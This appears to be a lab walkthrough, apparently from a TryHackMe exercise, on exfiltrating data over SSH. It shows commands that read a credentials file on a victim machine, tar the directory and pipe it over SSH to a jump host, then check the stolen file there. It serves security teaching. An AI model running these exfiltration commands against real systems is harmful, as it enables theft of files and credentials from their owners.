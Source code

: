 # Exfiltration using FTP/SSH/SCP/SFTP

FTP/SSH/SCP/SFTP might be permitted outbound, or at least most likely will be from some locations as they’re often 
used as data exchange protocols. Client tools are also readily available on systems without the need to pull down 
additional binaries.

The SSH protocol establishes a secure channel to interact and move data between the client and server. All transmission 
data is encrypted over the network or the Internet. To transfer data over SSH, use either the Secure Copy Protocol
(SCP) or the SSH client.

The server in this task has an SSH server enabled, so we can send and receive any exfiltrated data from it.

Connect to the victim1 or victim2 machine and check the data to be exfiltrated:

    ssh thm@<IP jumphost>
    thm@victim1:~$ cat task5/creds.txt

Wrap it up in an archive and send it to the jump host:

    thm@victim1:$ tar cf - task5/ | ssh thm@jump.thm.com "cd /tmp/; tar xpf -"

* `tar cf - task5/` - create an archive. The second dash belongs with the `f` meaning instead of creating a named 
file in the filesystem, write the tarred up files onto stdout.
* `ssh thm@jump.thm.com` - ssh into the jump host and ...
* `"cd /tmp/; tar xpf` - change the directory and unarchive the passed file.

Check the received data:
			
    thm@jump-box$ cd /tmp/task5/
    thm@jump-box:/tmp/task5$ cat creds.txt
